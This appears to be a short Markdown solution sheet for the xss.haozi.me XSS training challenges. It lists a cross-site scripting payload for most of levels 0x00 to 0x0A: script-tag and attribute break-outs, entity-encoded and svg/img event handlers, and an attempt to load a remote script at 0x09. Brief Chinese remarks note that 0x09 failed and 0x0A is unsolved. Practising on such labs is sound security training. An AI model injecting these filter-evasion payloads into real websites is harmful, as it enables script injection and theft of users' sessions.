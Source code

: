 ## xss.haozi.me
[xss.haozi.me](https://xss.haozi.me/#/0x00)

### 0x00
`<script>alert(1)</script>`

### 0x01
`</textarea><script>alert(1)</script>`

### 0x02
`"><script>alert(1)</script>`

### 0x03
``<script>alert`1`</script>``

### 0x04
`<img src="" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;">`

### 0x05
`--!> <script>alert(1)</script> <!--`

### 0x06
```
onclick
=alert(1)
```

### 0x07
```
<svg onload=alert(1)//
<img src onerror='alert(1)'//
```

### 0x08
```
</style ><script>alert(1)</script>
```

### 0x09
```
http://www.segmentfault.com@byxs0x0.cn/alert.js

没成功，好像是因为不同源
```

### 0x0A
```
也没成功，待玩
```
